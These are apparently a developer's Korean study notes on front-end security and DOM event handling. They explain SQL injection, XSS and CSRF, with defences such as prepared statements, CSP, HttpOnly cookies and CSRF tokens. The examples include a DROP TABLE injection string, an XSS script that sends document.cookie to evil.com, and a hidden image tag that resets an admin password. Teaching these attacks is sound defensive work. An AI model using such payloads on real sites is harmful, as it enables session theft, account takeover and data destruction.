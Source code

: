 

# 프론트의 기본 보안

## 1. SQL Injection

임의의 SQL 문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위

ex)
url의 query string같은데에 sql문을 작성
'userId = 100; DROP TABLE YOURS'

```
    select * 
        from People
    where id = 100;
    DROP TABLE YOURS
```

대응 방법 : 

- 입력값 검증
- Prepared Statement 구문

ref 

https://noirstar.tistory.com/264

## 2. XSS < Cross Site Scripting >

 악의적인 스크립트를 삽입하여 해당 스크립트가 희생자 측에서 동작하도록 하여 악의적인 행위를 수행하는 취약점
 
ex)

```
<script>
document.write('<img src="https://evil.com/collect.gif?cookie=' + document.cookie + '" />')
</script>
```

대응 방법 :
   - 사용자 입력값 검증을 반드시 서버단에서 한다.

  - 사용자 입력 문자열에서 HTML 코드로 인식될 수 있는 특수문자를 일반문자로 치환하여 처리한다. (innerHTML -> textContent?)

https://velog.io/@raram2/%EB%8B%B9%EC%8B%A0%EC%9D%B4-innerHTML%EC%9D%84-%EC%93%B0%EB%A9%B4-%EC%95%88%EB%90%98%EB%8A%94-%EC%9D%B4%EC%9C%A0

- XSS Filtering

- CSP규칙

-> XSS 같은 Injection attack 으로 부터 사이트를 보호하기 위해 브라우저에서 정의하는 일종의 "보안 정책" 

https://sdy-study.tistory.com/63

- 정규표현식?

- localstorage, cookie 는 취약하니 사용 조심

-> cookie의 HTTPOnly 옵션 사용!


## 3. CSRF < Cross site request forgery >

간단하게 정리하자면, 악성코드가

XSS: 클라이언트에서 발생 / CSRF: 서버에서 발생

사이트간 요청위조

```
<img src="http://auction.com/changeUserAcoount?id=admin&password=admin" width="0" height="0">
```
1. 관리자 중 한명이 관리 권한을 가지고 회사내에서 작업을 하던 중 메일을 조회한다. (로그인이 이미 되어있다고 가정하면 관리자로서의 유효한 쿠키를 갖고있음)
2. 해커는 위와 같이 태그가 들어간 코드가 담긴 이메일을 보낸다. 관리자는 이미지 크기가 0이므로 전혀 알지 못한다.
3. 피해자가 이메일을 열어볼 때, 이미지 파일을 받아오기 위해 URL이 열린다.
4. 해커가 원하는 대로 관리자의 계정이 id와 pw 모두 admin인 계정으로 변경된다.



방어 방식 : 

1. Referrer 검증

`HTTP 리퍼러(HTTP Referer)는 웹 브라우저로 월드 와이드 웹을 서핑할 때, 하이퍼링크를 통해서 각각의 사이트로 방문시 남는 흔적`

https://developer.mozilla.org/ko/docs/Web/HTTP/Headers/Referer

request header에 있는 요청을 한 페이지의 정보가 담긴 referrer 속성을 검증하여 차단.

2. CSRF Token 사용

랜덤한 수를 사용자의 세션에 저장하여 사용자의 모든 요청(Request)에 대하여 서버단에서 검증

3. CAPTCHA 사용

캡차이미지상의 숫자/문자가 아니라면 해당 요청을 거부.

4.  form 태그를 입력할 시 GET X, POST방식

(기본..?)

* SameSite (cookie)

ref 

https://sj602.github.io/2018/07/14/what-is-CSRF/

# 이벤트 위임 - 버블링과 캡처링

이벤트 위임이란 하위 요소마다 이벤트를 붙이지 않고 상위 요소에서 하위 요소의 이벤트들을 제어하는 방식

![](https://i.imgur.com/swWpDjp.png)

1. 캡처링 단계 – 이벤트가 하위 요소로 전파되는 단계
2. 타깃 단계 – 이벤트가 실제 타깃 요소에 전달되는 단계
3. 버블링 단계 – 이벤트가 상위 요소로 전파되는 단계

### 이벤트 버블링

이벤트가 발생했을때 이벤트가 하위 엘레먼트에서
상위 엘레먼트로 전달되는 과정

(addEventListener Default)

![](https://i.imgur.com/Gioh3Cu.png)

```
<style>
  body * {
    margin: 10px;
    border: 1px solid blue;
  }
</style>

<form onclick="alert('form')">FORM
  <div onclick="alert('div')">DIV
    <p onclick="alert('p')">P</p>
  </div>
</form>
```

가장 안쪽의 `<p>` 를 클릭하면 순서대로 다음과 같은 일이 벌어집니다.

1. `<p>`에 할당된 onclick 핸들러가 동작합니다.
2. 바깥의 `<div>`에 할당된 핸들러가 동작합니다.
3. 그 바깥의 `<form>`에 할당된 핸들러가 동작합니다.
4. document 객체를 만날 때까지, 각 요소에 할당된 onclick 핸들러가 동작합니다.

### 이벤트 캡처링

이벤트가 발생했을때 이벤트가 상위 엘레먼트에서
하위 엘레먼트로 전달되는 과정

```
elem.addEventListener(..., {capture: true})
// 아니면, 아래 같이 {capture: true} 대신, true를 써줘도 됩니다.
elem.addEventListener(..., true)
```

ref

https://ko.javascript.info/bubbling-and-capturing


## 이벤트 전파

### event.preventDefault()
기본(default)를 막다(prevent)

html tag의 기본 작동을 막음 
(ex- form enter시 submit!)

```
    <script
        function stopDefaultAction(e) 
        { e.preventDefault(); } 
    </script>
```

### event.stopPropagation()

전파(Propagation)를 중지한다(stop)

stopPropgagation 은 이벤트의 캡쳐링과 버블링의 전파만 막고 싶을 때 사용

### event.stopImmediatePropagation()

stopImmediatePropgation 은 이벤트 캡쳐링과 버블링 뿐만 아니라 현재 실행중인 이벤트 핸들러 이후에 그 어떤 이벤트 핸들러도 실행시키고 싶지 않을 때

* 상위 뿐 아니라 같은 레벨로도 이벤트가 전파되지 않도록 중단한다.

ex) jQuery 예시긴 한데 예시가 좋아서 참고하면 좋을듯 싶습니다

https://webclub.tistory.com/186

ref 

https://ifuwanna.tistory.com/289

## Q : 리엑트의 이벤트 다루는 방식은?

이벤트 위임으로 이벤트를 다룬다

document 레벨에서 모든 이벤트를 처리..?
react 17 부턴 root에 이벤트 부착

https://bityoungjae.medium.com/react%EC%9D%98-%EC%9D%B4%EB%B2%A4%ED%8A%B8-%EC%9C%84%EC%9E%84-b08f84e16250

*리엑트 제작자의 답변

https://github.com/facebook/react/issues/13635

*부캠 관련 피드백..? (보려면 권한필요)

https://github.com/boostcampwm-2021/javascript-p4-bmtown/pull/261
